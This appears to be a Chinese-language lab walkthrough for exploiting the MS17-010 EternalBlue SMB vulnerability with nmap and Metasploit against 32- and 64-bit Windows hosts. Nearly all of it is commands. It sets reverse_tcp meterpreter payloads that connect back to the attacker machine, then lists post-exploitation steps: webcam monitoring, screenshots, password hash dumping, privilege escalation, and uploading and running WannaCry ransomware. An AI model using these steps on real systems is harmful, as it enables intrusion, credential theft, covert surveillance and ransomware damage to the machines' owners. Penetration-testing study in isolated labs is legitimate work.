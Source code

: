 # 永恒之蓝-漏洞利用
## 环境
宿主机:	192.168.43.152 \
kali:	192.168.43.1 \
win32:	192.168.43.3（防火墙允许文件与打印机共享) \
win64:	192.168.19.2（防火墙允许文件与打印机共享)

## 主机发现
`nmap -n -p445 --script smb-vuln-ms17-010 192.168.19.154 --open` \
也可以用 \
`nmap -n -p445 192.168.43.2` \
`>nmap ms17-010` 定向扫描,发现端口开放并存在ms17-010 漏洞

## 使用msf框架攻击win64
`msfconsole` /进入msf> \
`version` /确保MS框架版本在 4.14.17以上,否则请apt-get install,search search ms17_010 \
漏洞模块路径查询，搜索到了 4 个相关的插件： \
`auxiliary/admin/smb/ms17_010_command` \
`auxiliary/scanner/smb/smb_ms17_010` \
`exploit/windows/smb/ms17_010_eternalblue` \
`exploit/windows/smb/ms17_010_psexec` \
其中前2个插件是auxiliary下的，属于辅助验证程序,用来扫描的。3和4是exploit下的,用来攻击。 \
注意到,msf的模块目录是在/usr/share/metasploit-framework/modules \
`use exploit/windows/smb/ms17_010_eternalblue`   /调用攻击模块 \
`options` /查看参数,并设置： \
`set RHOST 192.168.43.2` /设定攻击目标  \
`show payloads` /查看详细信息 \
`set payload windows/x64/meterpreter/reverse_tcp` /配置攻击载荷  \
`set LHOST 192.168.43.1` /设置操作机地址,即kali本机地址 \
`exploit` /发起攻击,也可以用`run` \
出现win -success!就成功了。

## 可以试试以下操作，或者help
`getuid，sysinfo` /查看系统信息 \
`webcam_list` /看看被控制的电脑有没有摄像头,如果有用webcam_stream命令可以打开摄像头监控 \
`route` /查看路由表 \
`screenshot` /桌面截图，很卡 \
`shell` /打开命令行，然后可以ipconfig/whoami/net user \
`ps` /看看开了哪些杀毒软件，内网一致 \
`kill` \
`hashdump` \
`getsystem` \
提权 \
`upload wcry/wcry.ext c:\` \
`upload wcry/FILE_ID.DIZ c:\` \
`execute -f c:\wcry.exe` \
上传和执行勒索病毒

## 使用msf框架攻击win32
`use exploit/windows/smb/ms17_010_psexec` \
`set RHOST 192.168.43.3` \
`set payload windows/meterpreter/reverse_tcp` \
`show options` /查看设置好的参数 \
`set LHOST 192.168.43.1` \
`set SMBUser aleecy` /32位机的账号 \
`set SMBPass 0` /32位机的密码 \
`exploit`


## 更多参考：
http://www.sqlsec.com/2018/03/smb.html \
https://blog.csdn.net/zmeixuan/article/details/77587370 \
http://www.freebuf.com/articles/system/132274.html

## 清理重载msf：
`/etc/init.d/postgresql restart` \
`reload_all`
